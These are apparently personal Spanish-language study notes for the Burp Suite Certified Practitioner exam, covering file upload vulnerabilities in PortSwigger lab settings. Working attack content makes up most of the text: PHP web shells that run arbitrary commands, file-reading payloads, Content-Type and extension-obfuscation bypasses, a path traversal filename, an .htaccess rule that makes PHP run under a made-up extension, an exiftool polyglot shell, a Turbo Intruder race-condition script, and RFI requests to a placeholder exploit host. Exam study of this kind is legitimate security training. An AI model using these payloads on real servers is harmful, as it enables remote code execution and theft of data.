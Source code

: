 Las vulnerabilidades de carga de archivos ocurren cuando un servidor web permite a los usuarios cargar archivos en su sistema de archivos sin validar suficientemente elementos como su nombre, tipo, contenido o tamaño. No aplicar adecuadamente las restricciones sobre estos podría significar que incluso una función básica de carga de imágenes pueda usarse para cargar archivos arbitrarios y potencialmente peligrosos.

> Consejo: el **Content-type**: encabezado dentro de una solicitud HTTP de respuesta puede proporcionar pistas sobre que tipo de archivo cree el servidor que ha entregado. Si este encabezado no ha sido establecido explicitamente por el codigo de la aplicación, entonces normalmemente tendrá el estandar de extensiones archivo/tipo MIME, que es un estandar de archivos para mandar contenido a través de la red

Todos estos son comandos para añadir cuando se sube un archivo a la aplicación, algo así
 para mantenerlo. 

```
Subir archivos exploit.php sin problema alguno: 
<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo file_get_contents(’home/carlos/secret’); ?>
Para obtenerlo con el endpoint GET files/avatar/exploit.php HTTP/2

Si text/php is not allowed, listo podemos tirarle el: 
<?php echo file_get_contents('/home/carlos/secret'); ?> pero revisamos el POST de subir ese exploit.php y modificamos el CONTENT-TYPE: 
Content-Type: text/php -> Content-Type: image/png

<?php echo system($_GET['command']); ?> //Este script le permite pasar un comando del sistema arbitrario a través de un parámetro de consulta de la siguiente manera: GET /example/exploit.php?command=whoami HTTP/1.1

```

<hr>

### Subir archivo arbitrario con recorrido de ruta: 
Toca modificar el POST /upload-file HTTP/2, del tipo filename="../exploit.php", tal cual como la imagen a continuación: 

![[Pasted image 20250215225826.png]]

### Bypassear Black List de files .php: 

Debemos crear unas reglas definidas para nuevos archivos a subir, y eso es con el archivo `.htaccess` ese es el que define las reglas que pueden ser así:

![[Pasted image 20250215231419.png]]

![[Pasted image 20250215231057.png]]

Esto asigna una extensión arbitraria (.l33t) al tipo MIME ejecutable application/x-httpd-php, seria cuestión de enviar en lugar de exploit.**php** -> **exploit.133t** 

![[Pasted image 20250215231456.png]]

### File Upload RCE mediante carga de shell web políglota `exiftool` 

```
exiftool -Comment="<?php echo 'START' . file_get_contents('/home/carlos/secret') . 'END'; ?>" imagen.jpeg -o polyglot.php

Para encontrar el secret solo es fijarnos en la Response el valor que esté dentro
de START[-------]END
```

Ahora bien, la imagen que imagen.jpg es real, una imagen que tenía en mi portatil, ahora entendamos, lo que hace ese comando es tomar una imagen como referencia con todos sus metadatos y pasarle el Comment que hicimos de PHP echo etc… y lo devuelve en un archivo PHP con todos sus metadatos como una imagen, es porque ello que ahora que subamos el archivo PHP lo vamos a poder subir ya que contiene los mismos metadatos que una imagen jpg por lo tanto tendrá los primeros Bytes `DD F8 DD` Que tiene toda imagen JPG, JPEG al principio, y como esa es la forma de validar la pagina en este caso de esta forma podemos saltarlo. 

### Ofuscar extensiones de archivos: 

Todos estos archivos exploit.php claramente son archivos que contienen el código `<?php echo file_get_contents('/home/carlos/secret'); ?>`

```
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.php%00.jpg
exploit.asp;.jpg || exploit.asp%00.jpg
exploit.p.phphp
```

### File Upload Race Condition (Turbo Intruder)

Este tipo de subida de archivo, toca analizar si está disponible el código fuente para analizar si tiene un archivo temporal de validación el cual es el que nos permite inyectar el `file.php` sin validación correcta, el ejemplo de codigo que muestro se basa en turbo intruder race condition-multi endpoint y con base al laboratorio de file upload. 

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           engine=Engine.BURP2
                           )
    request1 = '''
POST /my-account/avatar HTTP/2
Host: 0a50003e04e8e4e780fd9e520019002b.web-security-academy.net
Cookie: session=Fk950acVFumcCQ7JeyA2mdgPt7sQfNlp
Content-Length: 465
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://0a50003e04e8e4e780fd9e520019002b.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynsNEZeA7LEL3VG0H
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a50003e04e8e4e780fd9e520019002b.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9

------WebKitFormBoundarynsNEZeA7LEL3VG0H
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundarynsNEZeA7LEL3VG0H
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarynsNEZeA7LEL3VG0H
Content-Disposition: form-data; name="csrf"

kSWM988LnLmiezCLiHSdhlEBsCrLxJl5
------WebKitFormBoundarynsNEZeA7LEL3VG0H--
'''

    request2 = '''
GET /files/avatars/exploit.php HTTP/2
Host: 0a50003e04e8e4e780fd9e520019002b.web-security-academy.net
Cookie: session=Fk950acVFumcCQ7JeyA2mdgPt7sQfNlp
Sec-Ch-Ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a50003e04e8e4e780fd9e520019002b.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9
'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Si algo toca modificar la request para ajustarse a la aplicación vulnerable del examen. 

<hr>

### File Upload via Method PUT

```
PUT /images/exploit.php HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-httpd-php 
Content-Length: 49 

<?php echo file_get_contents('/path/to/file'); ?>
```

<hr>

### Remote File Inclusion `RFI` Posible en el BSCP

> RFI function on target allow the upload of image from remote HTTPS URL source and perform to validation checks, the source URL must be `HTTPS` and the file **extension** is checked, but the MIME content type or file content is maybe not validated. Incorrect RFI result in response message, `File must be either a jpg or png`.

> Methods to bypass extension validation:

1. Extension with varied capitalization, such as .`sVG`
2. Double extension, such as `.jpg.svg` or `.svg.jpg`
3. Extension with a delimiter, such as `%0a, %09, %0d, %00, #`. Other examples, `file.png%00.svg` or `file.png\x0d\x0a.svg`
4. Empty filename, `.svg`
5. Try to cut allowed extension with more than the maximum filename length.

> Below scenario could be exploited using [SSRF](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#ssrf---server-side-request-forgery) or RFI. Did not solve this challenge.....

```
POST /admin-panel/admin-img-file
Host: TARGET.net
Cookie: session=AdminCookieTokenValue
Referer: https://TARGET.net/admin-panel

csrf=u4r8fg90d7b09j4mm6k67m3&fileurl=https://EXPLOIT.net/image.sVg
```

```
POST /admin-panel/admin-img-file
Host: TARGET.net
Cookie: session=AdminCookieTokenValue
Referer: https://TARGET.net/admin-panel

csrf=u4r8fg90d7b09j4mm6k67m3&fileurl=http://localhost:6566/
```

![[Pasted image 20250219182612.png]]